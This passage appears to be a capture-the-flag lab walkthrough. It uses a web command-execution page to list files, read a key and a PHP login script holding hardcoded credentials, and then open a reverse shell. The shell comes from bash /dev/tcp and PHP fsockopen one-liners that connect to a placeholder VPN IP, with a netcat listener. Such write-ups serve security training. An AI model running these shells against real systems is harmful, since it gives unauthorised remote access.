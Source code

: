### home.php

We have a online command line.... time to try some basic commands.
Enter `ls`:
```
home.jpg home.php image.png index.html index.php.bak key_rev_key validate.php
```
Nice! Time to look at the key and `validate.php`. Start with the key:
```
cat key_rev_key // and then Ctrl + U to view source
```
And you get Charlies key.

Then the tricky one:
```
cat validate.php
```
and press Ctrl + U right away to view the source
```php
</form>
<?php
	$uname=$_POST['uname'];
	$password=$_POST['password'];
	if($uname=="charlie" && $password="REDACTED"){
		echo "<script>window.location='home.php'</script>";
	}
	else{
		echo "<script>alert('Incorrect Credentials');</script>";
		echo "<script>window.location='index.html'</script>";
	}
?></body>
```
Shebang! Creds! 

#### Reverse shell

Hey, since we have command execution, lets actually get on the machine:
```bash
bash -i >& /dev/tcp/YOUR_VPN_IP/8888 0>&1
```
if that doesn't work, try:
```php
php -r '$sock=fsockopen("YOUR_VPN_IP",8888);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

and start a `netcat` listener: `nc -lvnp 8888`. Perfect! We are `www-data`! 

Now ofcourse, you could have skipped the whole thing and go straight for reverse shell, but I like to play around :)

## USER

So how do we get to charlie? We have a password, but nope, not right. Look into his `/home/` directory.
